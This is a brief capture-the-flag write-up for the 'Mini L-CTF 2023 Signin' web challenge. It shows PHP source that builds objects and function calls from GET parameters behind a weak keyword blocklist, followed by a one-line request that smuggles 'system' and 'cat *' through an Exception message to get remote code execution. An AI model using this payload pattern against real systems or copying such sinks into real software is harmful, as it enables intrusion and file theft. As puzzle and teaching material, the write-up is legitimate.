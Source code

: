 # [Mini L-CTF 2023]Signin
![](<./img/Pasted image 20230501145553.png>)

```
/shell.php
```

```php
<?php

error_reporting(0);
show_source(__FILE__);

$a = $_GET["a"];
$b = $_GET["b"];
$c = $_GET["c"];
$d = $_GET["d"];
$e = $_GET["e"];
$f = $_GET["f"];
$g = $_GET["g"];

if(preg_match("/Error|ArrayIterator|SplFileObject/i", $a)) {
    die("你今天rce不了一点");
}


if(preg_match("/php/i", $b)) {
 die("别上🐎，想捣蛋啊哥们？");
}

if(preg_match("/Error|ArrayIterator/i", $c)) {
 die("你今天rce不了一点");
}


$class = new $a($b);
$str1 = substr($class->$c(),$d,$e);
$str2 = substr($class->$c(),$f,$g);
$str1($str2);

//flag.php 
```

```
/shell.php?a=Exception&b=systemcat *&c=getMessage&d=0&e=6&f=6&g=5
```

![](<./img/Pasted image 20230501145514.png>)

#Web #RCE #PHP #shell #bypass 